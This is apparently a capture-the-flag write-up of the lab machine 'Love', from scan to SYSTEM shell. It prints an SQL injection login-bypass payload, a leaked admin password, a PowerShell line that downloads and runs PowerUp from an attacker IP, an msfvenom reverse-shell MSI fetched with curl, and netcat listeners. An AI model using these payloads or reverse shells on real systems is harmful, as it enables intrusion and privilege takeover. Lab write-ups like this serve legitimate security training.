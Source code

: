 # Penetration Test Write-Up: "Love" Machine

## Overview

"Love" is a Windows machine with a voting system that has a serious security flaw. The system exposes multiple services, including a vulnerable file scanner that can be exploited through SSRF (Server-Side Request Forgery). Using this vulnerability, we gain access to internal services and extract credentials for the voting system. After logging in, we exploit a remote code execution bug to gain a foothold on the system as the user "phoebe." Further privilege escalation allows us to bypass AppLocker and execute commands with SYSTEM privileges.

---

## Enumeration

### Nmap Scan
We started with an Nmap scan to identify open ports and services:

```
nmap -sC -sV -oA nmap/love 10.10.10.239 -Pn
```

![alt text](Snapshots/Love-image.png)

![alt text](Snapshots/Love-image2.png)


**Open Ports:**
- **80**: HTTP 
- **443**: HTTPS (leaking staging.love.htb)
- **5000**: HTTP service
- **445**: SMB service also detected
- **3306**: MySQL

We added the site names in our hosts file
```
echo "10.10.10.239 love.htb staging.love.htb" | sudo tee -a /etc/hosts
```

### HTTP Service (Port 80)
The web server on port 80 displayed a login page for the voting system. We attempted a few common login credentials and noted that an incorrect password prompt appeared for valid usernames, confirming that an admin account exists.

![alt text](Snapshots/Love-image3.png)

### HTTPS Service (Port 443)
Accessing https://staging.love.htb, and we got a File Scanner page. But we have no credentials to access it.

![alt text](Snapshots/Love-image4.png)


### Port 5000
Attempting to access port 5000 directly was blocked.

![alt text](Snapshots/Love-image5.png)

### Other ports
The SMB service did not allow anonymous login. We switched to running a **Gobuster** scan to find hidden directories.

```
gobuster dir -u http://10.10.10.239 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

Gobuster identified several directories, some of them are defaults but these two might be useful as we progress with our exploits.:
- `/images`
- `/admin`

![alt text](Snapshots/Love-image6.png)

---

## Exploitation

### SQL Injection
We tested for SQL injection on the login page. Using the exploit from [Exploit-DB](https://www.exploit-db.com/exploits/49843), we successfully bypassed authentication:

```
Username: dsfgdf' UNION SELECT 1,2,"$2y$12$jRwyQyXnktvFrlryHNEhXOeKQYX7/5VK2ZdfB9f/GcJLuPahJWZ9K",4,5,6,7 from INFORMATION_SCHEMA.SCHEMATA;-- -
Password: admin
```
![alt text](Snapshots/Love-image7.png)

### File Upload Vulnerability
After logging in, we navigated to the "Create Voter" page, which allowed file uploads. We uploaded various file types and found that the server saved them to the `/images` directory.

![alt text](Snapshots/Love-image8.png)

We tried to upload a php reverse shell but it failed to execute as something is blocking it from the server side.

![alt text](Snapshots/Love-image-9.png)

### SSRF Exploitation
Switching tactics, we ran another Gobuster scan on staging.love.htb and discovered `beta.php`. By leveraging SSRF, we accessed internal services by querying localhost URLs directly:

![alt text](Snapshots/Love-image-10.png)

![alt text](Snapshots/Love-image-11.png)

![alt text](Snapshots/Love-image-12.png)

- http://localhost:5000 revealed an internal password manager with leaked credentials:
```
  admin:@LoveIsInTheAir!!!!
```
---

### RCE on Voting System
Using the leaked credentials, we logged into the voting system and found an RCE exploit in Exploit-DB ([49445.py](https://www.exploit-db.com/exploits/49445)). After modifying the script to point to the correct URLs, we executed it:

![alt text](Snapshots/Love-image-13.png)

The exploit works but these URLs are needed to be updated. I've also added my listening IP and PORT, and the admin credentials as well.

![alt text](Snapshots/Love-image-14.png)

I setup a netcat listener
```
nc -lnvp 9001
```

Then run the exploit
```
python3 ./49445.py
```

We established a reverse shell and got the user flag.

![alt text](Snapshots/Love-image-15.png)


---

## Privilege Escalation

### PowerUp Script
I uploaded and run the PowerUp script to identify privilege escalation vectors:

```
IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.11:8000/PowerUp.ps1')
```

Then in the victim's machine run:
```
Invoke-AllChecks
```

The scan revealed that the **AlwaysInstallElevated** registry key was set to 1. The **AlwaysInstallElevated registry** key is a known privilege escalation vector in Windows systems. When this key is set to 1, it allows MSI files to be installed with elevated privileges by non-administrator users. This is a major security risk because attackers can abuse it to execute arbitrary MSI packages with SYSTEM privileges.
![alt text](Snapshots/Love-image-16.png)


### Crafting an MSI Payload
We used **msfvenom** to create a malicious MSI payload:

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.11 LPORT=4444 -f msi > shell.msi
```

### Upload and Execution
We uploaded the payload to `C:\programdata` using **curl**:

The C:\ProgramData directory is commonly accessible for "Everyone" because it's used by Windows to store shared application data that needs to be accessible by multiple users, regardless of their privilege level. I've also checked the directory's permission and Users are allowed to execute.

```
Get-Acl . | Format-List
```
![alt text](Snapshots/Love-image-17.png)

As this directory is confirmed that we can run our privilege escalation exploit, we download the .msi file from our local machine.
```
curl http://10.10.14.11:8000/shell.msi -o shell.msi
```

Then, we set up a listener:

```
rlwrap nc -lnvp 4444
```

Finally, we executed the MSI file with elevated privileges:

```
msiexec /quiet /qn /i shell.msi
```

Upon execution, we gained a shell with SYSTEM privileges.

![alt text](Snapshots/Love-image-18.png)

---

## Conclusion
The "Love" machine showcased several critical vulnerabilities:
1. SQL Injection on the voting system login page.
2. SSRF vulnerability that exposed internal services.
3. Misconfigured AlwaysInstallElevated registry key, allowing privilege escalation.

By systematically exploiting these weaknesses, we achieved full control of the system as a SYSTEM user.

